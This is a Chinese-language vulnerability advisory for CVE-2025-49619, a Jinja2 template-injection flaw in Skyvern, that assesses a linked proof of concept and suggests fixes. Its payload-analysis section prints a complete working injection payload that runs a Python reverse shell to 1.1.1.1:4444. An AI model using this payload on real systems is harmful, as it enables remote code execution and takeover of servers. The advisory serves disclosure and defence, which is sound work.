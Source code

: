 ## CVE-2025-49619 - Skyvern Jinja Runtime Leak

**漏洞编号:** CVE-2025-49619

**漏洞类型:** 服务器端模板注入 (SSTI)

**影响应用:** Skyvern

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** <= 0.1.85

**利用条件:** 需要Skyvern的URL和有效的API Key

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2025-49619 是 Skyvern <= 0.1.85 版本中的一个服务器端模板注入（SSTI）漏洞，位于 `sdk/workflow/models/block.py` 文件中。攻击者可以通过在 Jinja2 模板中注入恶意代码，实现在服务器端执行任意命令。 

**有效性：**

提供的PoC代码看起来是有效的。它利用了 Jinja2 模板注入漏洞，通过创建包含恶意 Jinja2 表达式的工作流，在 Skyvern 服务器上执行反弹 shell 命令。PoC 代码结构清晰，包含必要的参数（目标 URL，API 密钥，本地 IP 和端口），并且提供了如何启动监听器和运行 exploit 的详细说明。

**投毒风险：**

分析提供的 PoC 代码，并未发现明显的投毒代码。PoC 代码的功能是利用已知的 SSTI 漏洞，构造包含恶意 Jinja2 表达式的工作流，目的是在目标服务器上执行反弹 shell。代码中对反弹 shell 的 IP 地址和端口进行了参数化，增加了代码的灵活性，没有发现隐藏的、未经声明的恶意行为。因此，投毒风险为0%。

**利用方式：**

1.  **漏洞定位：** 该漏洞存在于 Skyvern 的工作流编辑器中，允许用户在 Prompt 字段中使用 Jinja2 模板语法。
2.  **利用过程：**
    *   攻击者首先需要获取 Skyvern 的 API 密钥。
    *   攻击者构造一个包含恶意 Jinja2 表达式的工作流定义。这个表达式的目的是执行系统命令，例如反弹 shell。
    *   攻击者使用 API 密钥向 Skyvern 服务器发送包含恶意工作流定义的 POST 请求。
    *   Skyvern 服务器在渲染包含恶意 Jinja2 表达式的 Prompt 字段时，会执行其中的系统命令。
    *   如果攻击者在自己的机器上设置了监听器，就可以收到反弹 shell。
3.  **Payload 分析：**
    *  `{% for x in ().__class__.__base__.__subclasses__() %}`: 遍历所有子类。
    *  `{% if 'warning' in x.__name__ %}`: 查找名称中包含“warning”的类 (通常是警告相关的类)。
    *  `{{ x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,os,pty;s=socket.socket();s.connect((\"1.1.1.1\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"sh\")'").read() }}`:  导入 `os` 模块，使用 `popen` 函数执行反弹 shell 命令。这个命令使用 Python 创建一个 socket 连接到攻击者的机器，并将标准输入、输出和错误重定向到 socket，然后启动一个 shell。
4.  **修复建议：** 修复此漏洞需要对用户输入进行严格的过滤和转义，防止恶意 Jinja2 表达式的注入。此外，还可以考虑使用沙箱环境来限制模板引擎的权限。

**项目地址:** [cristibtz/CVE-2025-49619](https://github.com/cristibtz/CVE-2025-49619)

**漏洞详情:** [CVE-2025-49619](https://nvd.nist.gov/vuln/detail/CVE-2025-49619)